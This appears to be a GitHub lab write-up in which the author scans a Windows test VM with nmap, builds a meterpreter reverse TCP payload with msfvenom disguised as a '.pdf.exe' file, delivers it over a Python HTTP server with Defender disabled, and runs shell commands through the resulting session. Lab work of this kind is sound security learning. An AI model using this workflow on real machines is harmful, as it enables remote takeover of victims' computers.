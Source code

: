 ### Step 1: Checking Nmap Commands and Syntax
- Used the command:
  ```bash
  nmap -h
![Step1](https://github.com/user-attachments/assets/ee1f6cfa-cd10-4520-becc-d57480418288)


### Step 2: Used nmap -A with my windows machine IP to check for open ports
- Used the command:
  ```bash
  nmap -A
![Step2 1](https://github.com/user-attachments/assets/cfb32c6e-12c7-4496-b523-9e1cb9ab7cdb)


### Step 3: - Used command "msfvenom -l payloads" to check for commands with payloads used "-l"  and "payloads" to list the payloads commands
- Used the command:
  ```bash
  msfvenom -l
![Step3_Payloads](https://github.com/user-attachments/assets/ad3632bf-3a7f-4694-a9dc-08c4884ae7df)


### Step 4: -From the payloads, I selected the `"windows/x64/meterpreter_reverse_tcp"`, and proceeded with this command:
```bash
windows/x64/meterpreter_reverse_tcp lhost=192.132.69.50 lport=4444 -f exe -o AndreAttack.pdf.exe
```
![Step4](https://github.com/user-attachments/assets/ae135d67-802a-4c91-ae55-08cc54904c31)

With this command i added the host ip (my Kali VM), and a random port `4444`.This command will generate a malware using meterpreter reverse tcp load. Which is instructed to connect back to our machine based on `lhost`, the file format will be in ".exe" with the name of `AndreAttack.pdf`,
as you can see from the screenshot below, i successed created the file and checked if the file is present using the `ls` command.
As we can see by using `file` we can access the file contents.

![step4 1](https://github.com/user-attachments/assets/d9d87b86-b10d-431d-ae7b-ee3f841dc85e)


### Step 5: - In this step i used metasploit by typing the command `msfconsole`.
- Used the command:
  ```bash
  msf
 ![6t](https://github.com/user-attachments/assets/559904d9-c420-4f0d-8660-bfbd59598c37)
### 5.1 Then proceeded to `use exploit/multi/handler`, and then `options`, to see what we can configure.
![5 1](https://github.com/user-attachments/assets/4da75551-7f64-4776-a1f9-fdfaed6e88cd)


### Step 6: We can see the payloadoptions to "generic/shell_reverse_tcp", i will change this payload so it can be the same payload that i use when configuring the malware on msfvenom earlier.
- Used the command:
  ```bash
  set payload windows/x64/meterpreter/reverse_tcp
  ```
Then i applied `options` again to change to my command.

![6 1](https://github.com/user-attachments/assets/ae64a0ed-617d-4083-b13b-9a15ad35d50d)

### 6.1 In here i configured `LHOST` to set to the attacker machine IP (My kali VM), using the command `set lhost 192.132.69.50`

![7 0](https://github.com/user-attachments/assets/79c46239-1407-438b-892b-da1b4d92c9e2)
#### As we can see from the image we now have our signed IP.
![image](https://github.com/user-attachments/assets/c0d81579-a22c-4a12-821e-bae569a21c8f)

### Step 7: Now we type `exploit` so our test machine start executing the malware! ☠️
![8](https://github.com/user-attachments/assets/d7778d6d-77bb-424b-ae25-a2145fe28fb6)


### Step 8: We must setup a quick `HTTP` server on my KALI machine so my test machine can download the malware.
To setup this **HTTP** server i decided to use **Python**! -> This will allow my target machine(windows vm) to access my KALI machine.

(Note: For this to work i had to go to my Windows Test Machine and disable windows defender and disable **Real time protection**!)
- Used the command:
  ```bash
  python3 -m http.server 9999
  ```
  ![9](https://github.com/user-attachments/assets/6aad7439-742e-46aa-aacf-82e7c98798d9)



### Step 10: Now i placed the adress(my VM IP server), into my Windows VM, and we got this result seeing the malware file i created earlier with the name `AndreAttack.pdf.exe`. 
So i proceeded to download it.

![10](https://github.com/user-attachments/assets/0f7d1a5a-7268-4ea8-af2e-98ba2a25465e)

   ### 10.1:  I proceeded to open CMD and type `netstat -anob`, so i can see if i have an establhised connection to my VM machine.
As you can see, i got it successfly! Great!

![11](https://github.com/user-attachments/assets/6ec5db86-2db7-4855-bf06-5b0ee2f3610d)


### Step 11: If i open Task manager and sort the `PID`, we can see our malware file `AndreAttack.pdf.exe`.
![12](https://github.com/user-attachments/assets/f347f2ad-93e7-41eb-a5d2-2ae10c2caa8f)


## Step 12: Now I can see that i have control of the VM! I typed some commands on my Attacker machine (Linux VM) to test it out! 
- Used the commands:
  ```bash
  shell
  ```
  ```bash
  net user
  ```
  ```bash
  net localgroup
  ```
  ```bash
  ip config
  ```
Pretty funny!

![13](https://github.com/user-attachments/assets/33847e3b-3b28-4fe0-bf9d-ebed18713eca)

 

